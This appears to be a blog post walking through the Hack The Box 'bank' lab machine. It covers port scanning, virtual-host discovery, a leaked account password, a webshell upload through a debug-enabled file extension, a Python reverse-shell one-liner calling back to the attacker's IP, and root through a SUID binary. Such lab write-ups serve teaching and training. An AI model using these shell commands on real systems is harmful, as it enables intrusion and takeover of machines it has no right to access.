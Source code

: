 ```yaml
---
layout: post
title: bank Walkthrough
subtitle: Hack The Box Bank Solution
tags: [bank, hackthebox, htb, walkthrough, pentest, CTF]
comments: true
---
```


We are going to do a penetration test of a nice machine from hackthebox.eu called bank. I made it in company of my work mate [last](http://blog.notso.pro "last") in about 5 hours. This machine hasn't been so hard, but we had few problems to understand how to unlock the way to cross.
The only information we received were the name of the machine
````
bank
````
and the ip address
```
10.10.10.29 
```

so we to scanned it using nmap

~~~
root@kali:~# nmap -sV -p- -n 10.10.10.29
Starting Nmap 7.70 ( https://nmap.org ) at 2019-04-26 14:25 CEST
Nmap scan report for 10.10.10.29
Host is up (0.036s latency).
Not shown: 65532 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 6.6.1p1 Ubuntu 2ubuntu2.8 (Ubuntu Linux; protocol 2.0)
53/tcp open  domain  ISC BIND 9.9.5-3ubuntu0.14 (Ubuntu Linux)
80/tcp open  http    Apache httpd 2.4.7 ((Ubuntu))
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 51.26 seconds
~~~

we can notice we found 3 services to check.

- OpenSSH 6.6.1p1
- ISC BIND 9.9.5-3ubuntu0.14
- Apache httpd 2.4.7

but there weren't knowed vulnerability for them.

So We tried to connect on the 80 port for checking the web server, but we didn't get interesting things.
The response was the default page of Apache, and weren't surprises hidden in the source code. We tried to enumerate hidden directory using dirbuster but nothing happened.


We wasted a lot of time trying to find the right way, 
using big wordlist for the directories webserver enumeration, connecting to the 53 port without results, scanning UDP port of the machine.
After few hours spent without results, we had an idea.
Maybe the server was configured with virtualhost, so using the right domain we would be able to connect to the web application.

so we edited our hosts file
~~~
root@kali:/# nano etc/hosts
~~~

adding this line
~~~
10.10.10.29	bank.htb
~~~

so going by browser on `bank.htb` TADA'!!!
we found the login panel of the web application.
SQL injection didn't work, so we tried again to enumerate the directories.

## ENUMERATION
I launched my dear friends **dirsearch**

~~~
root@kali:~/dirsearch# python3 dirsearch.py -u bank.htb -e * -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt 
~~~
let me analyze the command:
- **-u bank.htb** for specifying the Host
- **-e \*** for the extentions (we set ALL) 
- **-w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt** for the wordlist, i preferred to use the biggest wordlist for being sure

That's the result

~~~
[15:06:44] Starting: 
[15:06:44] 301 -  305B  - /uploads  ->  http://bank.htb/uploads/
[15:06:45] 301 -  304B  - /assets  ->  http://bank.htb/assets/
[15:06:48] 302 -    7KB - /  ->  login.php
[15:06:52] 301 -  301B  - /inc  ->  http://bank.htb/inc/
[15:12:19] 403 -  288B  - /server-status
[15:18:06] 301 -  314B  - /balance-transfer  ->  http://bank.htb/balance-transfer/

Task Completed
~~~

Our attenction was on

~~~
[15:18:06] 301 -  314B  - /balance-transfer  ->  http://bank.htb/balance-transfer/
~~~

in this directory there was an huge list of crypted .acc (account) files.

They were so similar, so **last** said me to check the size, We found one smaller then the others.

![found-not-encrypted](https://mrsaighnal.github.io/img/posts/2019-04-26-bank-walkthrough/found-not-encrypted.png "found-not-encrypted")

One file wasn't crypted and the informations were readable.

~~~
--ERR ENCRYPT FAILED
+=================+
| HTB Bank Report |
+=================+

===UserAccount===
Full Name: Christos Christopoulos
Email: chris@bank.htb
Password: !##HTBB4nkP4ssw0rd!##
CreditCards: 5
Transactions: 39
Balance: 8842803 .
===UserAccount===
~~~

We were able to log in the platform, watching the balance, transaction history etc etc.
The vulnerability was inside the support page, there was an upload module, but we didn't find a way for uploading malware right there.


![found-not-encrypted](https://mrsaighnal.github.io/img/posts/2019-04-26-bank-walkthrough/support-page.png "support-page")

### EXPLOITATION

Reading more deeply we discovered the developer missed an important information used for debugging inside the HTML source code.

~~~
<!-- [DEBUG] I added the file extension .htb to execute as php for debugging purposes only [DEBUG] -->
~~~


**thanks Mr Dev!** We can now upload our fantastic square-webshell (you should look at it on the [official repository](https://github.com/MrSaighnal/square-webshell "official repo")) simply changing the extension to .htb .

exploring the file system we found the first flag

~~~
cat ../../../../home/chris/user.txt
~~~

user.txt output:
~~~
37c97f8609f361848d8872098b0721c3
~~~

![found-not-encrypted](https://mrsaighnal.github.io/img/posts/2019-04-26-bank-walkthrough/square-webshell.png "user owned")

{: .box-success}
**Success:** User Owned.

it's now time to spawn real shell for managing our new system :-)

let's get ready our computer for receving connections through **nc** using the command

~~~
root@kali:~# nc -vv -n -l -p 1337
~~~
Our machine is now listening on the 1337 port. (Don't close this terminal!!!)

let's launch on the webshell this command

~~~
python -c 'import socket,subprocess,os;
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);
s.connect(("10.10.14.2",1337));
os.dup2(s.fileno(),0);
os.dup2(s.fileno(),1);
os.dup2(s.fileno(),2);
p=subprocess.call(["/bin/sh","-i"]);'
~~~

be sure to edit the 3°raw with your parameters **YOUR_IP** and **PORT**.

come back on your **nc** terminal and you shold see something similar to:

~~~
root@kali:~# nc -vv -n -l -p 1337
listening on [any] 1337 ...
connect to [10.10.14.2] from (UNKNOWN) [10.10.10.29] 51390
/bin/sh: 0: can't access tty; job control turned off
$
~~~

let's try to launch a command

~~~
root@kali:~# nc -vv -n -l -p 1337
listening on [any] 1337 ...
connect to [10.10.14.2] from (UNKNOWN) [10.10.10.29] 51390
/bin/sh: 0: can't access tty; job control turned off
$ whoami
www-data
$ 
~~~
it works.

### PRIVILEDGE ESCALATION

for priviledge escalation we launched a command for checking all files with high priviledge 

~~~
$ find / -type f \( -perm -4000 -o -perm -2000 \) -exec ls -l {} \; 2> /dev/null
~~~

and the first apperd so weird:

~~~
-rwsr-xr-x 1 root root 112204 Jun 14  2017 `/var/htb/bin/emergency`
~~~

Our friend sysadmin misconfigurated the system leaving an important vulnerability open, through this file anyboyd is able to become root.

~~~
cd /var/htb/bin/
ls
emergency
./emergency
whoami
root
~~~

![found-not-encrypted](https://mrsaighnal.github.io/img/posts/2019-04-26-bank-walkthrough/whoami-root.png "whoami root")

and get the root flag 

~~~
cat /root/root.txt  
d5be56adc67b488f81a4b9de30c8a68e
~~~


![found-not-encrypted](https://mrsaighnal.github.io/img/posts/2019-04-26-bank-walkthrough/root-flag.png "root owned")

{: .box-success}
**Success:** Root Owned.
